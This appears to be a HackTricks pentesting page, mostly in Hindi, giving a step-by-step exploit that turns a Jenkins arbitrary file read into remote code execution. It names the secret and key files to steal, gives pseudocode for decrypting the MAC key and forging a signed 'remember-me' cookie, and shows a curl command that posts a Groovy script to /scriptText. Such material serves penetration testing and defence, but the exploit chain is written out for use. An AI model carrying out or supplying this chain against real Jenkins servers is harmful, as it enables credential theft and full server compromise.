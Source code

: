 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

इस ब्लॉग पोस्ट में Jenkins में Local File Inclusion भेद्यता को RCE में बदलने का एक शानदार तरीका पाया जा सकता है: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

यह एक AI द्वारा बनाई गई संक्षेप है उस पोस्ट के भाग की जहां एक मनमाना कुकी का निर्माण RCE प्राप्त करने के लिए स्थानीय फ़ाइल पढ़ने का दुरुपयोग किया जाता है जब तक कि मेरे पास अपने स्वयं के संक्षेप को बनाने का समय न हो:

### Attack Prerequisites

- **Feature Requirement:** "Remember me" सक्षम होना चाहिए (डिफ़ॉल्ट सेटिंग)।
- **Access Levels:** हमलावर को Overall/Read अनुमतियाँ चाहिए।
- **Secret Access:** प्रमुख फ़ाइलों से बाइनरी और पाठ्य सामग्री पढ़ने की क्षमता।

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

- प्रत्येक उपयोगकर्ता के लिए `$JENKINS_HOME/users/*.xml` से उपयोगकर्ता कॉन्फ़िगरेशन और रहस्यों तक पहुँचें:
- **Username**
- **User seed**
- **Timestamp**
- **Password hash**

**Secret Key Extraction**

- कुकी पर हस्ताक्षर करने के लिए उपयोग किए जाने वाले क्रिप्टोग्राफिक कुंजियों को निकालें:
- **Secret Key:** `$JENKINS_HOME/secret.key`
- **Master Key:** `$JENKINS_HOME/secrets/master.key`
- **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

- **Token Expiry Time की गणना करें:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // वर्तमान समय में एक घंटा जोड़ें
```

- **Token के लिए डेटा को संयोजित करें:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC Key Decryption**

- **MAC Key File को डिक्रिप्ट करें:**

```javascript
key = toAes128Key(masterKey)  // मास्टर कुंजी को AES128 कुंजी प्रारूप में परिवर्तित करें
decrypted = AES.decrypt(macFile, key)  // .mac फ़ाइल को डिक्रिप्ट करें
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

- **HMAC SHA256 की गणना करें:**

```javascript
mac = HmacSHA256(token, macKey) // टोकन और MAC कुंजी का उपयोग करके HMAC की गणना करें
tokenSignature = bytesToHexString(mac) // MAC को हेक्साडेसिमल स्ट्रिंग में परिवर्तित करें
```

**Cookie Encoding**

- **अंतिम कुकी उत्पन्न करें:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // कुकी डेटा को Base64 में एन्कोड करें
```

#### Step 3: Code Execution

**Session Authentication**

- **CSRF और सत्र टोकन प्राप्त करें:**
- `/crumbIssuer/api/json` पर एक अनुरोध करें ताकि `Jenkins-Crumb` प्राप्त किया जा सके।
- प्रतिक्रिया से `JSESSIONID` को कैप्चर करें, जिसका उपयोग याद रखने वाली कुकी के साथ किया जाएगा।

**Command Execution Request**

- **Groovy Script के साथ POST अनुरोध भेजें:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Groovy स्क्रिप्ट का उपयोग सिस्टम-स्तरीय कमांड या Jenkins वातावरण के भीतर अन्य संचालन को निष्पादित करने के लिए किया जा सकता है।

उदाहरण curl कमांड दिखाता है कि कैसे आवश्यक हेडर और कुकी के साथ Jenkins को अनुरोध भेजा जाए ताकि मनमाना कोड सुरक्षित रूप से निष्पादित किया जा सके।

{{#include ../../banners/hacktricks-training.md}}
